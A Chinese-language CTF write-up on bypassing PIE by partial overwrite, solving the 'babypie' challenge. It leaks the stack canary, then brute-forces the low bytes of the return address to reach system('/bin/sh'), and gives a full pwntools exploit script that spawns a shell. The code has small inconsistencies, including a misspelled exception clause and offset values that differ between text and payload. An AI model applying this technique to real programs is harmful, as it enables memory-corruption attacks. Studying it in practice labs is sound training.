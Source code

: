 > 参考资料：[https://eqqie.cn/index.php/laji_note/1017/](https://eqqie.cn/index.php/laji_note/1017/)
>
> CTF-wiki
>

# PIE特征
<font style="color:rgba(0, 0, 0, 0.87);">我们知道， 在程序开启了 PIE 保护时 (PIE enabled) 高位的地址会发生随机化， </font>**<font style="color:#F5222D;">但低位的偏移是始终固定的， 也就是说如果我们能更改低位的偏移， 就可以在一定程度上控制程序的执行流</font>**<font style="color:rgba(0, 0, 0, 0.87);">，绕过 PIE 保护。</font>

> partial overwrite不仅仅可以用在栈上，同样可以用在其它随机化的场景。比如堆的随机化，由于堆起始地址低字节一定是0x00，也可以通过覆盖低位来控制堆上的偏移。
>

# 示例
<font style="color:rgba(0, 0, 0, 0.87);">我们以CTF-wiki上的例题（</font><font style="color:rgba(0, 0, 0, 0.87);">安恒杯 2018 年 7 月月赛的 babypie </font><font style="color:rgba(0, 0, 0, 0.87);">）为例进行讲解：</font>

> [https://github.com/ctf-wiki/ctf-challenges/blob/master/pwn/stackoverflow/partial_overwrite/babypie](https://github.com/ctf-wiki/ctf-challenges/blob/master/pwn/stackoverflow/partial_overwrite/babypie)
>

首先检查一下文件的保护情况：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598926840052-c1f563d5-3b42-48f4-9de9-214765dcd812.png)

可以看到保护全开，并且开启了PIE保护，是64位程序

先来运行一下程序：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598927695298-292b6976-8ac4-4229-b3c0-2c4c544c98d0.png)

可以看到，程序给了我们两次输入的机会。

拖入IDA中，查看伪代码：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598927402655-95484fe8-b0be-4d53-9749-3bbb7f6ce4fa.png)

IDA 中看一下， 很容易就能发现漏洞点， 两处输入都有很明显的栈溢出漏洞。

同时发现system("/bin/sh")：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598927457227-33ac6f04-a1b4-49cb-bf83-2d6af788e68e.png)

由于开启了PIE保护，但是地址的低位是不会发生变化的。我们记下system函数的低位为0x960。<font style="color:#314659;">所以我们可以仅修改末尾的4位(因为每个字符相当于占两位 无法只修改三位)，这样就有一定的概率return到我们想要的system函数地址。</font>

溢出发生了两次，每次溢出可控制的字节不同。**<font style="color:#F5222D;">同时read不设置截断符\x00，而Canary为了防止被泄露，最低位字节固定为0x00，那么可以额外读取一个字节覆盖canary的最低字节，达到泄露目的。</font>**

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598951683470-b9dbfa16-531a-4f04-8d30-e145931ebb95.png)

大致利用思路已经很明了了：

第一次溢出用sendline把canary最后一个字节覆盖为换行符\x0a，然后从输出中读到canary+0xa，减去0xa得到canary。

第二次溢出运用上一步的canary覆盖canary所在的栈上位置并继续向后溢出，覆盖return地址低两位字节。

由于return地址低两位字节中有4 bits是无法控制的，也就是是随机的，好在范围不大，随便填一个靠点运气就能getshell。（也就是覆盖返回地址为0x?a3e，概率碰撞）



exp如下：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
context.log_level = "debug"

while True:
    try:
        p = process("./babypie", timeout = 1)

        #  gdb.attach(p)
        p.sendafter(":\n", 'a' * (0x30 - 0x8 + 1))
        p.recvuntil('a' * (0x30 - 0x8 + 1))
        canary = '\0' + p.recvn(7)
        print canary.encode('hex')

        #  gdb.attach(p)
        p.sendafter(":\n", 'a' * (0x30 - 0x8) + canary + 'bbbbbbbb' + '\x3E\x0A')
	    #str+canary+ebp+ret

        p.interactive()
    except Exceptpn as e:
        p.close()
        print e
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598952603695-62be8f5d-19e3-436c-be13-88addd017cde.png)

getshell

